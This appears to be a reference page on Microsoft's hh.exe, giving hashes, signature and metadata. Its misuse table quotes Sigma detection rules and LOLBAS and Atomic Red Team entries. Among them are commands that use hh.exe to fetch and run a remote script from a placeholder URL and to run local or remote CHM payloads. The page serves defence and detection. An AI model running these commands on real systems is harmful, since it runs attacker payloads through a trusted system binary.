

---
title: hh.exe | Microsoft HTML Help Executable
excerpt: What is hh.exe?
---

# hh.exe 

* File Path: `C:\Windows\hh.exe`
* Description: Microsoft HTML Help Executable

## Screenshot

## Hashes

Type | Hash
-- | --
MD5 | `52AFE6DE5E463B7A08C184B1EB49DD6A`
SHA1 | `5DB2A365E115CF3175948CC3BF532D8A0503D2CB`
SHA256 | `9823D79E936B57C94BFB84383CC708BFC15D1D16E67F6CB119B60F28B01BFA63`
SHA384 | `09CBDA5644E73EBCD55E3AE3E3A64ECF4E41F154B7FF19F16F0C042D6C890C6785064E0443238AE44DD703ED3826AA82`
SHA512 | `F75C9D19B6CF43E6886F79DDE919AB5A5309BEDC27AC880234C7D74BCCB869E0B4AC365CD8437BAC7230BB6B645017390716429D66707AEA151DF64CBE09965F`
SSDEEP | `192:1ODE9sPKCtXzNFc1ZBpk7icC7EHGBJ7qe06gx9om5GJ1KDJD/QWcE:UDE95Ujc1Z7UipX1D05I1KDOWcE`

## Signature

* Status: Signature verified.
* Serial: `3300000266BD1580EFA75CD6D3000000000266`
* Thumbprint: `A4341B9FD50FB9964283220A36A1EF6F6FAA7840`
* Issuer: CN=Microsoft Windows Production PCA 2011, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
* Subject: CN=Microsoft Windows, O=Microsoft Corporation, L=Redmond, S=Washington, C=US

## File Metadata

* Original Filename: HH.exe.mui
* Product Name: HTML Help
* Company Name: Microsoft Corporation
* File Version: 10.0.14393.0 (rs1_release.160715-1616)
* Product Version: 10.0.14393.0
* Language: English (United States)
* Legal Copyright:  Microsoft Corporation. All rights reserved.

## File Similarity (ssdeep match)

File | Score
-- | --
[C:\Windows\hh.exe](hh.exe-1CECEE8D02A8E9B19D3A1A65C7A2B249.md) | 38
[C:\Windows\hh.exe](hh.exe-2C8FE78D53C8CA27523A71DFD2938241.md) | 40
[C:\windows\hh.exe](hh.exe-B934411DFE7DEACFA95A1255A48133C9.md) | 43
[C:\WINDOWS\hh.exe](hh.exe-DF73D52FDCE65F90A2E49EFB5248C77C.md) | 41
[C:\WINDOWS\SysWOW64\hh.exe](hh.exe-1DDFACDAC1875864336F7B61A7E562C9.md) | 40
[C:\Windows\SysWOW64\hh.exe](hh.exe-25DA176935752443FE077C2F0F819B7E.md) | 36
[C:\Windows\SysWOW64\hh.exe](hh.exe-7AA22C33D8C35E6F59ADB2D02C8702C7.md) | 44
[C:\Windows\SysWOW64\hh.exe](hh.exe-A97778801ABF79482E757200E4035A01.md) | 36
[C:\windows\SysWOW64\hh.exe](hh.exe-ED2E7B5224BA827838C012C26A561DDB.md) | 32

## Possible Misuse

*The following table contains possible examples of `hh.exe` being misused. While `hh.exe` is **not** inherently malicious, its legitimate functionality can be abused for malicious purposes.*

Source | Source File | Example | License
-- | -- | -- | --
[sigma](https://github.com/Neo23x0/sigma) | [godmode_sigma_rule.yml](https://github.com/Neo23x0/sigma/blob/master/other/godmode_sigma_rule.yml) | `- '\hh.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_hh_chm.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_hh_chm.yml) | `title: HH.exe Execution`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_hh_chm.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_hh_chm.yml) | `description: Identifies usage of hh.exe executing recently modified .chm files.`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_hh_chm.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_hh_chm.yml) | `Image\|endswith: '\hh.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_html_help_spawn.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_html_help_spawn.yml) | `ParentImage: 'C:\Windows\hh.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [win_office_shell.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_office_shell.yml) | `- '*\hh.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[sigma](https://github.com/Neo23x0/sigma) | [sysmon_suspicious_remote_thread.yml](https://github.com/Neo23x0/sigma/blob/master/rules/windows/sysmon/sysmon_suspicious_remote_thread.yml) | `- '\hh.exe'`{:.highlight .language-yaml} | [DRL 1.0](https://github.com/Neo23x0/sigma/blob/master/LICENSE.Detection.Rules.md)
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `Name: Hh.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `- Command: HH.exe http://some.url/script.ps1`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `- Command: HH.exe c:\windows\system32\calc.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `Usecase: Execute process with HH.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `- Path: C:\Windows\System32\hh.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `- Path: C:\Windows\SysWOW64\hh.exe`{:.highlight .language-yaml} | 
[LOLBAS](https://github.com/LOLBAS-Project/LOLBAS) | [Hh.yml](https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Hh.yml) | `- IOC: hh.exe should normally not be in use on a normal workstation`{:.highlight .language-yaml} | 
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | <blockquote>Adversaries may abuse Compiled HTML files (.chm) to conceal malicious code. CHM files are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program) | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | A custom CHM file containing embedded payloads could be delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may also bypass application application control on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote> | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | Uses hh.exe to execute a local compiled HTML Help payload. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | hh.exe #{local_chm_file} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | Uses hh.exe to execute a remote compiled HTML Help payload. | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | hh.exe #{remote_chm_file} | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)
[atomic-red-team](https://github.com/redcanaryco/atomic-red-team) | [T1218.001.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.001/T1218.001.md) | \| hh_file_path \| path of modified HH.exe \| path \| $env:windir&#92;hh.exe\| | [MIT License. © 2018 Red Canary](https://github.com/redcanaryco/atomic-red-team/blob/master/LICENSE.txt)

MIT License. Copyright (c) 2020-2021 Strontic.

